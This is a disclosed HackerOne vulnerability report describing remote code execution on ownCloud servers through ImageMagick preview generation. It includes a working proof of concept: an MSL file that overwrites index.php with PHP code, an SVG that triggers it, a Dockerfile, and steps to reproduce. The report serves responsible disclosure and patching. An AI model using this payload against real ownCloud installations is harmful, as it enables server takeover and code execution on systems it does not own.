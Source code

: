 # Remote Code Execution on ownCloud instances with ImageMagick installed

## Report Details
- **Report ID**: 1838674
- **URL**: https://hackerone.com/reports/1838674
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2023-01-18T23:07:04.547Z
- **Disclosed**: 2023-04-12T16:14:15.056Z

## Reporter
- **Username**: lukasreschke
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: owncloud

## Vulnerability Information
It is possible to execute code on ownCloud instances which have ImageMagick installed. This is due to the usage of ImageMagick for preview generation for some file types. (anything using [`OC\Preview\Bitmap`](https://github.com/owncloud/core/blob/83f600f8b89b62d52248dfdbc7046567be024b67/lib/private/Preview/Bitmap.php#L84-L92))

The prerequisite for exploitation seem to be:

- ImageMagick is installed (e.g. as [described in the ownCloud documentation](https://doc.owncloud.com/server/10.10/admin_manual/installation/manual_installation/manual_imagick7.html))
- The attacker knows the file path of a file that they uploaded (e.g. `/mnt/data/files/`)
- The attacker is able to upload files to the system (e.g. by using [File Drop Folders](https://owncloud.com/features/file-drop-folders/) or having an account)

To reproduce we have provided the following files:

- F2127559
```
FROM owncloud/server:10.11
RUN apt-get update && apt-get install -y imagemagick
```

- F2127558
```
<?xml version="1.0" encoding="UTF-8"?>
<image> 
  <read filename="/mnt/data/files/admin/files/Photos/Portugal.jpg" />
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <comment>&lt;?php echo php_uname(); ?&gt;</comment>
  <write filename="/var/www/owncloud/index.php" />
</image>
```

- F2127557
```
<svg width="1000" height="1000" 
xmlns:xlink="http://www.w3.org/1999/xlink">
xmlns="http://www.w3.org/2000/svg">       
<image xlink:href="msl:/mnt/data/files/admin/files/exploit.msl" height="500" width="500"/>
</svg>
```

Download these files and then perform the following steps:

- Build the docker image
   - `docker build . -t owncloud-imagemagick`
- Start the docker image
   - `docker run --rm --name oc-eval -d -p8080:8080 owncloud-imagemagick:latest`
- Open the ownCloud instance at localhost:8080 and login using the username “admin” and the password “admin”.
   - Upload the file exploit.msl
   - Upload the file image.rgb
- Reload the page, at this point you will be served the new rewritten index.php that will also perform the phpinfo() command. (you can change which file should be overwritten and what PHP code will be executed inside exploit.msl)

{F2127565}

## Impact

Attackers that are able to upload files to a ownCloud instance with ImageMagick installed can execute arbitrary code on the system.

## Attachments
- image.rgb
- exploit.msl
- Dockerfile
- Screenshot_2023-01-19_00.05.46.png
